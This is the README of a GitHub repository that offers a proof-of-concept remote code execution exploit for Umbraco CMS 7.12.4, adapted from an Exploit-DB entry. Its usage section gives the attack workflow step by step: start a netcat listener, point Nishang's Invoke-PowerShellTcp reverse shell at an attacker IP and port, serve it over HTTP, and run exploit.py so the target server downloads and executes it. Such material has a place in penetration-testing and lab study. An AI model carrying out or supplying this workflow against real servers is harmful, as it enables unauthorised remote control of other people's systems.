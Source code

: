 # Umbraco CMS 7.12.4 RCE POC / Reverse Shell

## Overview
This repository contains a Proof-of-Concept (PoC) exploit for an authenticated Remote Code Execution (RCE) vulnerability in Umbraco CMS 7.12.4. 

This exploit, inspired by the original PoC (https://www.exploit-db.com/exploits/46153), leverages a vulnerable XSLT processor to execute arbitrary commands on the server via authenticated access.

The provided script has been modified to download and execute a PowerShell script, such as Nishang's Invoke-PowerShellTcp.ps1 (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), which spawns a reverse shell.

## Requirements
Step 1: Clone the Repository

Step 2: Install Dependencies and ensure you have Python 3 installed:
```
pip install requests beautifulsoup4
pip3 install requests
```

## Usage
Step 1: Open a listening port. For example:
```
nc -vlnp 9090
```

Step 2: Edit the bottom line of the Nishang Invoke-PowerShellTcp.ps1 script to reflect your attacking machine's IP address and listening port. For example:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.12.6 -Port 9090
```

Step 3: Start a simple HTTP server to host the Nishang script in the same directory where Invoke-PowerShellTcp.ps1 is located. For example:
```
python3 -m http.server 80
```
Step 4: Modify lines 30, 35, 36, 37 in exploit.py accordingly to match your setup (i.e., http server address, login, password, host)

Step 5: Run exploit.py

## Reference
Original POC: https://www.exploit-db.com/exploits/46153

nishang: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
